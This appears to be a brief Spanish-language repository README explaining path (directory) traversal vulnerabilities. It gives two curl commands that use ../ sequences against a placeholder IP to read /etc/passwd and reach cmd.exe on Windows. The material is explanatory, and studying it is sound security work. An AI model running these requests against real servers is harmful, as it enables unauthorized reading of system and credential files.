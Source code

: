 ## directoriotrasversal
##
Path Traversal (o Directory Traversal) es una vulnerabilidad web que permite a un atacante acceder a archivos y directorios fuera del directorio raíz del servidor web.

se manipula parámetros de la URL o inputs que contienen rutas de archivos (como ../../) para moverse por las carpertas del servidor.

Si el servidor no valida correctamente las entradas, puede exponer archivos sensibles como:

Configuraciones (/etc/passwd en Linux).
#
## ejemplos simples para explotar la vulnerabilidade de directorio trasversal o path traversal:

curl --path-as-is -k -v http://ip:80/../../../../../etc/passwd

curl --path-as-is -k -v http://ip:80/../../../../../../windows/system32/cmd.exe

## http://www.hackingyseguridad.com

Codigos de respuesta HTTP https://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html
